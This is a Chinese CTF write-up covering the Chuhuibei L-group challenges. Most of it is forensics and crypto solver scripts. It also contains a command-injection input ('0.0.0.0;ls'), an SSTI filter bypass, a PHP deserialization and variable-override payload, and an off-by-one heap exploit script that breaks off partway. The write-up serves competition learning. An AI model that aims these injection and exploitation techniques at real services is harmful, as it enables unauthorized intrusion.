# Zeropz-楚慧杯L组WP-先知社区

> **来源**: https://xz.aliyun.com/news/16300  
> **文章ID**: 16300

---

# Zeropz-L组WP

## DS

### ds-findphone

```
https://dexterjie.github.io/2024/12/01/%E8%B5%9B%E9%A2%98%E5%A4%8D%E7%8E%B0/2024%E7%AC%AC%E4%BA%8C%E5%B1%8A%E7%A6%8F%E5%BB%BA%E7%9C%81%E6%95%B0%E6%8D%AE%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B/#ezmath-2
```

```
import re
import csv

tmp = [734, 735, 736, 737, 738, 739, 747, 748, 750, 751, 752, 757, 758, 759, 772, 778, 
       782, 783, 784, 787, 788, 795, 798, 730, 731, 732, 740, 745, 746, 755, 756, 766, 
       767, 771, 775, 776, 785, 786, 796, 733, 749, 753, 773, 774, 777, 780, 781, 789, 
       790, 791, 793, 799]

data = open('data.txt','rb').read()
f = open('output.csv', 'w', newline='', encoding='utf-8')
writer = csv.writer(f)
head = ['category','value']
writer.writerow(head)


for i in tmp:
    t = str(i).encode()
    pattern = t + rb'\d{8}'
    matches = re.findall(pattern, data)
    for match in matches:
        print(match)
        message = ['phone',match.decode()]
        writer.writerow(message)

```

<font style="color:#FFFFFF;">····![]  
(<https://cdn.nlark.com/yuque/0/2024/png/32674752/1734776212042-2ae01e66-ea22-4f8c-a692->  
ff65a9fe4e7c.png)</font>

<font style="color:#FFFFFF;">


DASCTF{37522664565224857214829962885285}

## MISC

### 特殊流量2



提出来一个文件



-----BEGIN PUBLIC KEY-----  
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCfhiyoPdM6svJZ+QlYywklwVcx  
PkExXQDSdke4BVYMX8Hfohbssy4G7Cc3HwLvzZVDaeyTDaw+l8qILYezVtxmUePQ  
5qKi7yN6zGVMUpQsV6kFs0GQVkrJWWcNh7nF6uJxuV+re4j+t2tKF3NhnyOtbd1J  
RAcfJSQCvaw6O8uq3wIDAQAB  
-----END PUBLIC KEY-----




分析指令发现是把x替换成i或7

```
xx34d619x1brxgd9mgd4xzxwxytv669w
```

```
from itertools import product

# 原始字符串
original = "xx34d619x1brxgd9mgd4xzxwxytv669w"

# 找到所有 'x' 的位置
positions = [i for i, char in enumerate(original) if char == 'x']

# 生成所有组合
replacements = product('i7', repeat=len(positions))

# 替换并生成所有可能字符串
results = []
for combo in replacements:
    temp = list(original)
    for pos, repl in zip(positions, combo):
        temp[pos] = repl
    results.append(''.join(temp))

# 输出所有可能性
for result in results:
    print(result)

```

```
ii34d619i1brigd9mgd4iziwiytv669w
ii34d619i1brigd9mgd4iziw7ytv669w
ii34d619i1brigd9mgd4iz7wiytv669w
ii34d619i1brigd9mgd4iz7w7ytv669w
ii34d619i1brigd9mgd47ziwiytv669w
ii34d619i1brigd9mgd47ziw7ytv669w
有两千多个就先写这么多吧
```



```
U2FsdGVkX18tplkP51SopY26cczUyjuT8tP9j3Ofqv5XF5njA7CygY125iYhxplSQTNoT/kcwoN1z+4a4r/+9JtONfutcHXoyCv2tLseBHr802V/RRtFaZnZc3DM/trRmjk5SAyMSgvN+laSp6uK8eAOq7yKWq7FI+En5cu+j7+bxiuceviSoJ9gEw3SfEMtz4rYbKHagq8aCAlKPEevM+HVSnGSrMoy6QS8oQPgHkafdVj2m1HmfkdQFL5q7qYvrxVlRLbm657I0VIIusf8Q6+rsvlh28HrE3MzLlu6fd/cQ7nsZKuKYo0u4pc/yvI3RZglrd7Fb6piO4ryhs2g1g==
```

```
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Hash import MD5
import os

def derive_key_and_iv(password, salt, key_length, iv_length):
    d = d_i = b''
    while len(d) < key_length + iv_length:
        d_i = MD5.new(d_i + password + salt).digest()
        d += d_i
    return d[:key_length], d[key_length:key_length+iv_length]

def decrypt_openssl(enc, password):
    data = b64decode(enc)
    if data[:8] != b"Salted__":
        raise ValueError("Invalid OpenSSL-encrypted data")
    salt = data[8:16]
    key, iv = derive_key_and_iv(password.encode('utf-8'), salt, 32, 16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(data[16:])
    padding_length = decrypted[-1]
    return decrypted[:-padding_length]

def brute_force_decrypt(ciphertexts, key_file):
    with open(key_file, 'r') as f:
        keys = f.readlines()

    for key in keys:
        key = key.strip()
        for i, ciphertext in enumerate(ciphertexts):
            try:
                print(f"Trying key: {key} on ciphertext {i+1}")
                decrypted_text = decrypt_openssl(ciphertext, key)
                print("\nDecryption successful!")
                print("Ciphertext index:", i+1)
                print("Correct key:", key)
                print("Decrypted text:", decrypted_text.decode('utf-8'))
                return i, key, decrypted_text.decode('utf-8')
            except Exception as e:
                print(f"Decryption failed, error message: {e}")
                pass

    print("Decryption failed with all provided keys.")
    return None, None, None

ciphertexts = [
    "U2FsdGVkX18tplkP51SopY26cczUyjuT8tP9j3Ofqv5XF5njA7CygY125iYhxplSQTNoT/kcwoN1z+4a4r/+9JtONfutcHXoyCv2tLseBHr802V/RRtFaZnZc3DM/trRmjk5SAyMSgvN+laSp6uK8eAOq7yKWq7FI+En5cu+j7+bxiuceviSoJ9gEw3SfEMtz4rYbKHagq8aCAlKPEevM+HVSnGSrMoy6QS8oQPgHkafdVj2m1HmfkdQFL5q7qYvrxVlRLbm657I0VIIusf8Q6+rsvlh28HrE3MzLlu6fd/cQ7nsZKuKYo0u4pc/yvI3RZglrd7Fb6piO4ryhs2g1g==",
]

key_file = "./1.txt"

index, key, decrypted_text = brute_force_decrypt(ciphertexts, key_file)
if index is not None:
    print(f"\nCorrect ciphertext index: {index+1}")
    print(f"Correct key: {key}")
    print(f"Decrypted text: {decrypted_text}")

```

最后得出密钥是

i734d619i1brigd9mgd4xz7w7ytv669w

解密结果

```
Delta Alpha Sierra Charlie Tango Foxtrot Three Foxtrot Delta Three Four Bravo Five Nine Dash Four Echo Nine Delta Dash Four Three Nine Zero Dash Nine Two Seven Bravo Dash One Three Four Six Delta Five Three Six Four Delta Nine Nine
```


D A S C T F 3 F D 3 4 B 5 9 - 4 E 9 D - 4 3 9 0 - 9 2 7 B - 1 3 4 6 D 5 3 6 4 D 9 9

## 马赛克

imageinfo查看内存镜像信息



Filescan发现桌面有flag.zip文件





导出之后，发现zip损坏

在editbox命令下，发现flag文件被打乱，下边是打乱的代码

简单分析原理后交给AI打磨逆向脚本：

```
recovered_f = open('./new.zip', 'rb').read()
recovered_L = len(recovered_f)
# 计算原文件长度，根据原脚本逻辑，每轮循环取10字节（各5字节前后部分），这里通过取整判断循环次数反推原长度
original_L = (recovered_L // 10) * 10
# 创建字节数组用于存放恢复后的原始文件内容
original_data = bytearray(original_L)
# 循环次数根据计算出来的原文件长度对应的合理循环次数
loop_count = original_L // 10
for i in range(loop_count):
    # 提取原脚本中靠前写入的5个字节，放置到恢复内容的对应位置（5*i位置开始）
    original_data[5 * i: 5 * i + 5] = recovered_f[10 * i: 10 * i + 5]
    # 提取原脚本中靠后写入的5个字节，放置到恢复内容的对应位置（从原文件末尾往前对应位置）
    original_data[original_L - 5 * i - 5: original_L - 5 * i] = recovered_f[10 * i + 5: 10 * i + 10]
if recovered_L % 10!= 0:
    remainder = recovered_L % 10
    if remainder <= 5:
        original_data[:remainder] = recovered_f[-remainder:]
else:
    original_data[:5] = recovered_f[-(remainder):-(remainder - 5)]
original_data[original_L - (remainder - 5):original_L] = recovered_f[:(remainder - 5)]
with open('./recovered_flag.zip', 'wb') as recovered_file:
    recovered_file.write(original_data)

```



恢复成功，还差个密码，继续在内存中找



Filescan命令，再图片文件夹里找到了个password，导出来





导出来发现是图片


010查看，发现还有一个在尾部，foremost分离



发现是flag.zip,用ai去马赛克


去除马赛克工具点击[这里](https://github.com/spipm/Depix)

解压后得到flag



REFTQ1RGe2RlYmVmMTBjLTA1YmItNGVhNy04ZDAxLWE1ZmRmMmEyNDZiN30-



DASCTF{debef10c-05bb-4ea7-8d01-a5fdf2a246b7}

### gza\_Cracker

<https://mp.weixin.qq.com/s/me3pY_xa2RIHOncin9B5QA>



DASCTF{M0Y\_W1sh\_Y0u\_LogF1le\_Usg32WEM}

### 不良劫

<https://mp.weixin.qq.com/s/me3pY_xa2RIHOncin9B5QA>

foremost分离出残缺图片



ps手搓


DASCTF{014c6e74-0c4a-48fa

盲水印





DASCTF{014c6e74-0c4a-48fa-8b33-ced16f847e39}

### 特殊流量

### PixMatrix



把他看成两个4x4的矩阵，通过他的变换规则写出还原脚本

```
from PIL import Image


def split_image_into_8x8_blocks(image_path):
    # 打开图片
    img = Image.open(image_path)
    width, height = img.size

    # 初始化一个列表，用于存储所有的 8x8 矩阵
    blocks = []

    # 遍历图片，按 8x8 的块分割
    for y in range(0, height, 8):  # 按行遍历
        for x in range(0, width, 8):  # 按列遍历
            # 裁剪当前的 8x8 块
            block = img.crop((x, y, x + 8, y + 8))
            blocks.append(block)

    return blocks, img.size


def split_8x8_into_4x4(block):
    # 将 8x8 矩阵分成 4 个 4x4 子矩阵
    sub_blocks = [
        block.crop((0, 0, 4, 4)),  # 左上
        block.crop((4, 0, 8, 4)),  # 右上
        block.crop((0, 4, 4, 8)),  # 左下
        block.crop((4, 4, 8, 8))  # 右下
    ]
    return sub_blocks


def swap_top_right_bottom_left(sub_blocks):
    # 交换右上和左下的子矩阵
    sub_blocks[1], sub_blocks[2] = sub_blocks[2], sub_blocks[1]
    return sub_blocks


def merge_4x4_into_8x8(sub_blocks):
    # 将 4 个 4x4 子矩阵合并成一个 8x8 矩阵
    new_block = Image.new("RGB", (8, 8))
    new_block.paste(sub_blocks[0], (0, 0))  # 左上
    new_block.paste(sub_blocks[1], (4, 0))  # 右上
    new_block.paste(sub_blocks[2], (0, 4))  # 左下
    new_block.paste(sub_blocks[3], (4, 4))  # 右下
    return new_block


def save_processed_image(blocks, original_size, output_path):
    # 将处理后的块重新组合成图片
    new_img = Image.new("RGB", original_size)
    block_index = 0
    for y in range(0, original_size[1], 8):
        for x in range(0, original_size[0], 8):
            new_img.paste(blocks[block_index], (x, y))
            block_index += 1
    # 保存结果
    new_img.save(output_path)


# 主函数
def process_image(image_path, output_path):
    # 1. 分割图片为 8x8 矩阵
    blocks, original_size = split_image_into_8x8_blocks(image_path)

    # 2. 处理每个 8x8 矩阵
    processed_blocks = []
    for block in blocks:
        # 2.1 将 8x8 矩阵分成 4x4 子矩阵
        sub_blocks = split_8x8_into_4x4(block)

        # 2.2 交换右上和左下的子矩阵
        sub_blocks = swap_top_right_bottom_left(sub_blocks)

        # 2.3 将 4x4 子矩阵合并成 8x8 矩阵
        new_block = merge_4x4_into_8x8(sub_blocks)

        # 2.4 保存处理后的块
        processed_blocks.append(new_block)

    # 3. 保存结果
    save_processed_image(processed_blocks, original_size, output_path)


# 示例调用
image_path = "PixMatrix.jpg"  # 替换为你的图片路径
output_path = "processed_image.jpg"  # 保存处理后的图片路径
process_image(image_path, output_path)

print(f"处理完成，结果已保存到 {output_path}")

```



DASCTF{824f1e986260efa86f1bd252b5e13a4d)

### Crypto

### ddd

```
https://dexterjie.github.io/2024/12/01/%E8%B5%9B%E9%A2%98%E5%A4%8D%E7%8E%B0/2024%E7%AC%AC%E4%BA%8C%E5%B1%8A%E7%A6%8F%E5%BB%BA%E7%9C%81%E6%95%B0%E6%8D%AE%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B/#Crypto
```

```
import gmpy2
import libnum

def continuedFra(x, y):
    """计算连分数
    :param x: 分子
    :param y: 分母
    :return: 连分数列表
    """
    cf = []
    while y:
        cf.append(x // y)
        x, y = y, x % y
    return cf
def gradualFra(cf):
    """计算传入列表最后的渐进分数
    :param cf: 连分数列表
    :return: 该列表最后的渐近分数
    """
    numerator = 0
    denominator = 1
    for x in cf[::-1]:
        # 这里的渐进分数分子分母要分开
        numerator, denominator = denominator, x * denominator + numerator
    return numerator, denominator
def solve_pq(a, b, c):
    """使用韦达定理解出pq，x^2−(p+q)∗x+pq=0
    :param a:x^2的系数
    :param b:x的系数
    :param c:pq
    :return:p，q
    """
    par = gmpy2.isqrt(b * b - 4 * a * c)
    return (-b + par) // (2 * a), (-b - par) // (2 * a)
def getGradualFra(cf):
    """计算列表所有的渐近分数
    :param cf: 连分数列表
    :return: 该列表所有的渐近分数
    """
    gf = []
    for i in range(1, len(cf) + 1):
        gf.append(gradualFra(cf[:i]))
    return gf


def wienerAttack(e, n):
    """
    :param e:
    :param n:
    :return: 私钥d
    """
    cf = continuedFra(e, n)
    gf = getGradualFra(cf)
    for d, k in gf:
        if k == 0: continue
        if (e * d - 1) % k != 0:
            continue
        phi = (e * d - 1) // k
        p, q = solve_pq(1, n - phi + 1, n)
        if p * q == n:
            return d

n = 114566998957451783636756389276471274690612644037126335470456866443567982817002189902938330449132444558501556339080521014838959058380963759366933946623103869574657553262938223064086322963492884606713973124514306815995276393344755433548846003574038937940253826360659447735554684257197194046341849089254659225497
e = 35489734227210930185586918984451799765619374486784192218215354633053183935617953856556709715097294481614236703293033675674496036691242573294182072757562322996800390363453350727372642264982749305833933966045097125311467413670410802534093354414115267442785896373815076066721029449240889291057288090241124904705
c = 60503455347700500866544596012233537789678841391057706123172519773588895502922586197178148979273264437566411675346207472455036341903878112074983509557751805365618433536738111588239911292341288514123006967218545943520736254346030465088445419278775539026233686559207400401082452551955780877227801939191694370380
d=wienerAttack(e, n)
m=pow(c, d, n)
print(libnum.n2s(m).decode())

```



DASCTF{e694f0b4e9556021d1bc9e8deedba575}

### QAQTAT

```
from Crypto.Util.number import *
from hashlib import sha256

def enc(pt, G, A, T, S, p):
    s = randint(0,p-1)
    D = G^s
    E = A*T*A
    F = D*E*D
    K = list(D*S*D)
    key = sum(K[0])+sum(K[1])+sum(K[2])
    mask = int(sha256(str(key).encode()).hexdigest(),16)
    ct = pt ^^ mask
    return ct, F

p =  72887242108660141996862343556330151015969690949835567252527194788428065480383
Fp2.<i> = GF(p^2, modulus=x^2+1)
M = MatrixSpace(Fp2, 3, 3)

pk =  ([(17721183402259872020800275954210023274983052570120081248291897425608931477093*i + 32398110280895896734010284949974832063887503132353681078977206899204202173789, 54531634495057046991515273558305428867102201405617856305008554208336946545276*i + 53559176432820530464958340934397135653021175198597495321065224929188410347695, 27719945502856754481236098196014205483081586087367078493933408080194499938927*i + 1450628736387393873166171805424299538505476789523674611289973478290718453200), (57242423786686483363839647362581564383925732392730073374546590355998555747077*i + 573726326354574516128249317235875704460857319673337707555095009277545125755, 33631043256657770245013631632455702904903259491780484310654749784948198388976*i + 17344746653834202604930860577508757708688427949046279718508635007113840369042, 37771390186920740637371383242878514021347606565375600086363978842439775164973*i + 60264754185911116825495147907207494752330900415794996812483089251259003404228), (1163730453993018743008743150834548760986076138562570206571825145859591284352*i + 69245390362211526197537288211735612650619880945856387683074182933575799994162, 11137807706588795799057940108843238078078690609437386007163034291855328303661*i + 50795522649623533714787572047531722836395032085224035511036953078383612475598, 14354786571703727534706086386589187674076604263117377684131521866407943036307*i + 63028649680815097939155846824928638616844025040257105384123424769274942520895)], [(22137116252880790433838296157765927318220905592359967466680754349755815464341*i + 35503968364379821899511866562472775961434113516937033217642581531414863539290, 38346074307552448152239080224505166810289185210503265380269711384969731945517*i + 9333819647786551924409858116441570177115099865486742684028611902450000042407, 24608192510515673607042276468532809071945836783394960695059783085937608049755*i + 27099766371861599260580052331632986107092105438254563604629919595057370886149), (57539731529782952718529369617033412770127782205874818027724894673104814770991*i + 12431864123786174601413168140961685219607645783666490625760143190724674574386, 33510082449726132893492104159133966168598115972734064630878005553829725389082*i + 30594711977745700371548334707069524826346332947574826081979927125841475148328, 8911862104171403632946802970568635607253840071000107875759139060453368618583*i + 51594672749496705581452789883241278156858476777167382827032876227546058970732), (58105830161247358431125768499050987088161417325586965601350797391396603985470*i + 10949064084676782939947256128733523229613253182051362970560478801614590446300, 6665352489343222248969975791152178151760060704226637217535985452272551528693*i + 16163109497937280055564868323730465088174193174761590036929535644203224067166, 26147088265849488467397913386934580340556987670869413865359802108333761377560*i + 14170094609019059182842713618319151553137248441974849089555832123638494739417)], [(60066006389024369318961505483331049048095679333675437984483948643792214278503*i + 67617085525047580942273623886038114942547589259839196477555874755427651308048, 38692305959834079988532869421062338838072016075793686080934562521314366274998*i + 21104829450473981189549299039898127784065322316764325995863199136802573514, 7207625628360021282792621977024027446511231977201394776410095364976996279450*i + 23039079766688651678553952766794875180844089420934577132338235904018762773928), (10808368042897084491009063074724200907600038030639153659288985642861405920614*i + 33955795465220353002933680692690511153845418737513482128237117905262919879043, 21645210772494061734726430463955231707074915293749580279327741388687068110310*i + 62225984739450865202997071369617271241348810092608626482294704825641320606694, 14572118842071162051223076904993643512402905544627821044103215186921277812496*i + 63504547636870837320642724540312613748726280369811190421219651308407770510674), (6529211642735966744323364626486352288002532267939478445216264742350974653419*i + 43426895500365913698127867498420593427453574994051597107529725996420257433857, 66636149494607064863031794353485502915121295051850619450321561966293398587284*i + 51049172134567530748763269555600518661288880531459625871071308764595168859033, 42297258788816007263333796194491196601979606573843177791726417124128570106777*i + 45527674821983322767637713856131638914194577467349514130179266972864796164733)], [(47645610858583239528541540288030905132801730740336899517917521534427703920375*i + 13272393664089987551368548207128885229248289454405159277755757369580866096516, 60503024931869977830369448001966194434192750710631225090391559259672930497207*i + 22742672333325631628906219543935772962495637869131049729874762344108069789046, 18239371575343144081671835175136676417172797381923442300525086630600561560114*i + 53605095942301227312866863441233162082087535371838738595931070092230378325532), (49652795839344946948771531270341537200526957150620826334216871981974859849848*i + 72788891932812016325514298655742330969740202920835574638161526839627026310392, 58465406030985457122487065262985150103086610852826560192123766406670919681919*i + 41631921368744416558173670147590406285376603436284660888096365325833457519047, 2867068797023070369258694926242485369317317985428997150826022662547346928319*i + 199536555238705400453079146297641296197748614855192340202929119323998667173), (19319782936524636558881137449470396788888469756320580071801690941326971557928*i + 34694728896207512382372151140975478616355941017631874070450334268575015485538, 60420266086997924618637147844041161464210208935194926422677077391866663978425*i + 13672363312837218411993834816309940812825734002380106434784905443915361955247, 56317025568717741728727542740124505299029374963112095990350877412868385510001*i + 56960621295573230601502052571104746367180500789238336757504091383665514782189)])
F =  [(36081831373398765496490121898118275331597167308301671911642273861563666664545*i + 20818485079783326431414952124332440995164298376805349071762867760925654560129, 2080527476644284459469754065728582261439110792635520661740429151724797376184*i + 22485923248080983391383279592637691489160934672854638306617785344436031827838, 15544373162545014827602222261755865080947187122261471926061663568794038512828*i + 65994932829738499994169748656063604384011854387402875895186473718226656419067), (3553534440103543686958858303956716887328727627636404431097647427819509340361*i + 41182149981825439188243414995474733005799065992663037326956422731949977723727, 11444151159046255413538671703716370245288291793592500278345001664024824339590*i + 1802783416049323926195923226865768221398255563865542946492803065162093093803, 15739175840903697568714274177182938758189586472507039731239155962622285528109*i + 38249065906628598713138583591858150126778794837077688369911160900556744463900), (14364753807737302773559096493138893453118094354943941768609481298414054855231*i + 16290236676179704559365899211744462983770375364688247022596145726641137243214, 3863306473986430132042752882629555431418515741358351198972027547882636615940*i + 1209446834271293681961506708684952401569936830292701272655835127315444154958, 21868026584808712490812183410257662299067350008298604021123682243508255905173*i + 12828201007038003022201361213007595366913298546122923089499182187938898042596)]
ct =  96910798667771988374291172958072220832574586618080134344021393928577220469428

A, T, S, G = [M(ii) for ii in pk]
F = M(F)


############################################################### attack
E = A*T*A
detA, detT, detS, detG, detE, detF = A.det(), T.det(), S.det(), G.det(), E.det(), F.det()
r = 2244966557637008779362441591080406338119704738381872153797151
#R = 80839783875482453208291688688697485912290384775841712705111124172946909733768714734343762988749579725275997021760357500939
#r = discrete_log(detG^R, ((detA^(-1)*detT).sqrt())^R, ord=(p^2-1)//R)
#s = discrete_log(((detA^(-2)*detT^(-1)*detF).sqrt())^R, detG^R, ord=(p^2-1)//R)
#not enough so use cado-nfs
import subprocess

command = [
    './cado-nfs.py',
    '-dlp',
    '-ell', str(r),
    'target='+str(t1),
    str(p)
]
#1541758195020130454925136833461872657607368759409055632195831

command = [
    './cado-nfs.py',
    '-dlp',
    '-ell', str(r),
    'target='+str(t2),
    str(p)
]
#780392429787953543532147509264510635118839088869098098140941

try:
    result = subprocess.run(command, check=True, text=True, capture_output=True)
    print(result.stdout)
except subprocess.CalledProcessError as e:
    print(f"ERROR: {e.returncode}")
    print("ERROR:", e.stderr)
#t2^s = t1
Fr = GF(r)
s1 = Fr(1541758195020130454925136833461872657607368759409055632195831)
s2 = Fr(780392429787953543532147509264510635118839088869098098140941)
ss = discrete_log(pow(t1, 6*r, p), pow(t2, 6*r, p), operation="*", ord=(p-1)//r)
s = crt([int(ss), int(s1/s2)], [(p-1)//(6*r), r])

ss = s
for ii in range(6):
    s = ss + ii * (p-1) // 6
    D = G^int(s)
    K = list(D*S*D)
    key = sum(K[0])+sum(K[1])+sum(K[2])
    mask = int(sha256(str(key).encode()).hexdigest(),16)
    pt = ct ^^ mask
    if(D.det()*detE*D.det() == detF):
        print(long_to_bytes(pt))
        break


#QAQ~4_Br0ken_Crypto_Sy5tem~TAT
QAQ~4_Br0ken_Crypto_Sy5tem~TAT

```

### easyCrypto

```
https://blog.csdn.net/luochen2436/article/details/132964576
```

```
import gmpy2
from Crypto.Util.number import *

n = 135133139540786818977969958456509467902948924003478556140490841984247464940261764739984274397650928404945721248284577232814352745333641188749824519153271662051302477973525156608141358709265683759057060630360909926255299541198485901065352661702656282587105799982740927802530997159098015074633017964344230291287
c = 1836794759996264077871820946090708779709415760553736759453665641907562256633157424959089180650539327925671892742819931875681606982615287882656254828326465758462357812873839261469783652663796071814218493268788421243190729887313099383264588659922912876424206670310928514588754069909128149471326084547056385690037197908766053620702238356084124023146075698878494434053246157524775269473152458661801907641122308756667762880284617915774590075511686821816948174618196839335059944389423693187930672934293905608970421003536691336581450927887931599275461176935079227494931457562345640133982771901848553204154760760399724074615092290799119053032875792219794072963200108352944441876206386518960615891547166767499506114294860833404421893612197040731184031783165365621722947731966143226777081983415797778111715332055871302609049501876860012070502369090417942239749695034267695710324328867728296996779
p = 13352463043552409670211183534740157814546713901105410408023687926498813469217507846107364405269402732967687839808637375591530105677153038557366731161035343
q = n//p
P = (p - q) & ((1 << 130) - 1)
m = (c-1)//n*gmpy2.invert(P,n) % n
flag = long_to_bytes(m)
print(flag)

```



DASCTF{365d0d2cda3a3836a19bf1f46760d875}

### Mypow

```
https://blog.csdn.net/luochen2436/article/details/132138412
```

```
import gmpy2
from Crypto.Util.number import  *

n = 36443283250594259606482132779262570582448178589602577809591307671554949253094255209079689901493052116793388954529442162972106210862341856282788030374324677114528044629385805693771773377070021111949953333360526159026822968061585876873187059674130307295006486032106471182393880915860569773206853864515489855553
hint = 57792516722001523643789088224096258172899052039145876393373730235406451592173971020702024058282699663364267742428240581839287357212741266617791207580236457
ct = 24482128269957355675512496312977308128712253968496848873519792376434347925427116612997489113223781321628516365811583310346553402215907938918891908853234881284620764982626375301219763593402089309909155204943747718536894186749932544428588048770663458669109073657836937287831725958017345747881678942488157429000

R.<x> = Zmod()[]
f = 2*x^2 + 7*n - hint*x
p = int(f.roots()[0][0])
q = n//p

e = gmpy2.next_prime(666)-1

R.<x> = Zmod(p)[]
f = x^e-ct
f = f.monic()
results1 = f.roots()

R.<x> = Zmod(q)[]
f = x^e-ct
f = f.monic()
results2 = f.roots()

for i in results1:
    for j in results2:
        param1 = [int(i[0]),int(j[0])]
        param2 = [p,q]
        m = CRT_list(param1,param2)
        flag = long_to_bytes(int(m))
        if b'DASCTF' in flag:
            print(flag)
            break

```



DASCTF{FastP0w3r\_4nd\_AMM\_0f\_R5A}

## web

### 速算比赛

```
https://mp.weixin.qq.com/s/me3pY_xa2RIHOncin9B5QA
```

```
import requests,re
sessions = requests.session()
for i in range(31):
    url = 'http://139.155.126.78:18257/'
    html = sessions.get(url=url)
    try:
        Calculate = re.findall("Calculate: (.*?)<br>",html.text)[0]
        Correct_Count = re.findall("Correct Count: (.*?)<br>",html.text)[0]
        answer = eval(Calculate)
        print(f"提交答案：{answer}")
        url = 'http://139.155.126.78:18257/'
        html = sessions.post(url=url,data={"answer":answer})
    except:
        print(html.text)

```



DASCTF{335254ed-c7fc-4be4-b2f2-7c83616b0247}

### Sal的图集

```
https://mp.weixin.qq.com/s/me3pY_xa2RIHOncin9B5QA
```

search存在ssti

使用fenjing一把梭

import , builtins，cat被过滤

用'' 即可绕过

读取flag





DASCTF{a82d4d9ff4b5c4651f0ac8e6af134e4b}

### popmart

```
https://mp.weixin.qq.com/s/me3pY_xa2RIHOncin9B5QA
```

0.0.0.0;ls


可以进行rce

但是这里对长度有限制

使用nl 命令查看当前目录下所有文件的内容





p0pmart.php存在反序列化

```
<?php
  error_reporting(0);
require_once("flag.php");
class popmart {
  public $yuki;
  public $molly;
  public $dimoo;
  public function __construct() {
    $this->yuki = 'tell me where';
    $this->molly = 'dont_tell_you';
    $this->dimoo = "you_can_guess";
  }
  public function __wakeup() {
    global $flag;
    global $where_you_go;
    $this->yuki = $where_you_go;
    if ($this->molly === $this->yuki) {
      echo $flag;
    }
  }
}
$pucky = $_GET['wq'];
if (isset($pucky)) {
  if ($pucky === "二仙桥") {
    extract($_POST);
    if ($pucky === "二仙桥") {
      die("<script>window.alert('说说看，你要去哪？？');</script>");
    }
    unserialize($pucky);
  }
}
  ?>

```

tcClassLoad.php

```
<?php
error_reporting(0);
include "auth.php";

class Als {
    public $text;
    public $dict;

    public function __wakeup() {
        if ($this->text == "helloworld") {
            $this->dict->init();
        }
    }

    public function __toString() {
        $this->text->undefinedProperty = 'New Value';
        return "HACKER";
    }
}

class Kl {
    public $apple;
    public $phone;
    public $var;

    public function __call($name, $arguments) {
        echo $this->apple;
    }

    public function __get($name) {
        foreach ($_GET as $key => $value) {
            $$key = $$value;
        }
        if ($_GET == "Hack") {
            if (isset($this->var)) {
                $arr[$this->var] = 1;
                if ($arr[] = 1) {
                    die("Hack!!");
                } else {
                    $this->content = file_get_contents($this->phone);
                    echo $this->content;
                }
            }
        }
    }
}

class Glb {
    public $boy;
    public $gay;
    private $cc;

    public function init($a, $b) {
        $this->boy = $a;
        $this->gay = $b;
    }

    public function __set($name, $value) {
        if (isset($this->boy)) {
            print_r("1314");
            return $this->boy->name;
        }
    }
}

if (isset($_POST['cmd'])) {
    $serializecmd = $_POST['cmd'];
    $unserializecmd = unserialize($serializecmd);
    $unserializecmd->init();
} else {
    highlight_file(__FILE__);
}
?>

```



我们进行构造

这里检查wq要传入 "二仙桥"

利用extract这个函数进行变量覆盖

```
<?php
class popmart {
    public $yuki;
    public $molly;
    public $dimoo;
    public function __construct() {
        $this->yuki = 'tell me where';
        $this->molly = 'dont_tell_you';
        $this->dimoo = "you_can_guess";
    }
}
echo serialize(new popmart());
?>
# O:7:"popmart":3:{s:4:"yuki";s:13:"tell me
where";s:5:"molly";s:13:"dont_tell_you";s:5:"dimoo";s:13:"you_can_guess";}

```

```
GET：p0pmart.php?wq=二仙桥

POST：pucky=O:7:"popmart":3:{s:4:"yuki";s:13:"tell me where";s:5:"molly";s:13:"dont_tell_you";s:5:"dimoo";s:13:"you_can_guess";}&where_you_go=dont_tell_you

```



## PWN

### EZheap\_2



保护全开。

对于edit函数：



edit函数存在off-by-one漏洞。可以先布置堆风水，然后来进行后面一系列操作。

对于show函数;



这里通过减去0x202160可以泄露代码段的基地址。

**思路：**

利用off-by-one漏洞泄露出程序代码段的基地址，然后**<font style="color:#4D4D4D;">劫持\_IO\_2\_1\_stdout\_泄露libc.</font>**

<font style="color:#4D4D4D;">

<font style="color:#4D4D4D;">由于本题禁用了execve，所以不能用system和onegadget这类的函数。可以考虑打ORW，</font>

<font style="color:#4D4D4D;">

<font style="color:#1A2029;">修改<font style="color:#1A2029;">free\_hook<font style="color:#1A2029;">的值，控制程序执行流程。使用<font style="color:#1A2029;">setcontext<font style="color:#1A2029;">函数来劫持栈，这是因为在某些版本的glibc中，<font style="color:#1A2029;">setcontext<font style="color:#1A2029;">可以用来执行任意代码</font></font></font></font></font></font></font>

<font style="color:#1A2029;"><font style="color:#1A2029;"><font style="color:#1A2029;">

<font style="color:#4D4D4D;">把shell写到free\_hook周围，jmp过去执行我们的shellcode。</font>

<font style="color:#4D4D4D;">



如上可知libc偏移是0x3ed8b0,之后就按照思路打就行了

```
from pwn import *
from LibcSearcher import *

# context(log_level='debug',arch='i386', os='linux')
context(log_level='debug',arch='amd64', os='linux')


pwnfile = "./ezheap"
# io = remote("139.155.126.78",24982)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc = ELF("./libc.so.6")

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))

gadget = [0xe3b04,0xe3b01,0xe3afe,0xf1147]

def add(idx,size):
    sla(b"Your choice:",b"1")
    sla(b'index:',str(idx))
    sla(b"Size:",str(size))


def edit(idx,data):
    sla(b"Your choice:",b"2")
    sla(b'index:',str(idx))
    ru(b"context: ")
    s(data)

def free(idx):
    sla(b"Your choice:",b"3")   
    sla(b'index:',str(idx))


def show(idx):
    sla(b"Your choice:",b"4")
    sla(b"choose:",str(idx))

def pwn():
    add(0,0x18)  #0
    add(1,0x68)  #1
    add(2,0x68)  #2
    add(3,0x18)  #3

    edit(0,b'\x00'*0x18+p8(0xe1))
    free(1)

    add(4,0xd8)
    show(4)

    ru(b"\n")
